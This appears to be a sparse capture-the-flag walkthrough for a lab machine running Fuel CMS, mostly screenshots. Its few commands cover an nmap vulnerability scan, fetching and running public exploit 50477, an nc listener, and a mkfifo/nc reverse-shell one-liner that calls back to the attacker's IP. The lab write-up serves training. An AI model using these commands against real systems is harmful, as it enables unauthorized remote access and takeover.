  


sudo nmap -v -A -sC --script vuln -p- (IP)  


\--> searchsploit Fuel  


\--> searchsploit -m 50477





\--> sudo python3 /root/50477.py -u http://10.10.159.98



open other command promp and  
\--> nc -lnvp 4242



rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>61|nc 10.10.3.49 4242 >/tmp/f














